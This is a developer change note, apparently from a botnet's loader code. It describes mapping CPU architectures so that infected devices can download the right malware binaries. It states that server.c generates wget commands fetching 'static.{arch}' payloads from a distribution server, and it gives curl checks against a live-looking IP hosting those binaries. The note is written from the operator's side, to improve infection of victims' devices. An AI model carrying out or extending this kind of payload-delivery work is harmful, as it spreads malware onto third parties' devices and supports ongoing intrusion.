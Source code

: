 # Architecture Mapping Fix

## Problem
Infected devices were requesting binaries for architectures that don't exist in `/var/www/html/bins/`:
- `static.superh` → 404 Not Found
- `static.sparc` → 404 Not Found  
- `static.x86_64` → 404 Not Found

## Solution
Updated the loader to map requested architectures to available binaries:

### Architecture Mappings:
- `superh` / `superh7` → `sh4`
- `sparc` → `spc` 
- `x86_64` → `x86`

### Changes Made:

1. **Updated `binary_get_by_arch()` in `binary.c`**:
   - Added architecture mapping logic
   - Maps requested architectures to available ones
   - Maintains backward compatibility

2. **Updated wget URL generation in `server.c`**:
   - Maps architecture before generating wget command
   - Uses mapped architecture in URL: `http://server/bins/static.{mapped_arch}`
   - Updated debug logging to show mapping

### Result:
- No more 404 errors for `superh`, `sparc`, `x86_64`
- Infected devices get correct binaries
- All architectures properly mapped to available binaries
- No symlinks or workarounds needed

### Verification:
```bash
# These now return 200 OK instead of 404:
curl -I http://185.247.117.214/bins/static.sh4    # (mapped from superh)
curl -I http://185.247.117.214/bins/static.spc    # (mapped from sparc)  
curl -I http://185.247.117.214/bins/static.x86    # (mapped from x86_64)
```

The loader now properly handles architecture mapping without any workarounds or symlinks.


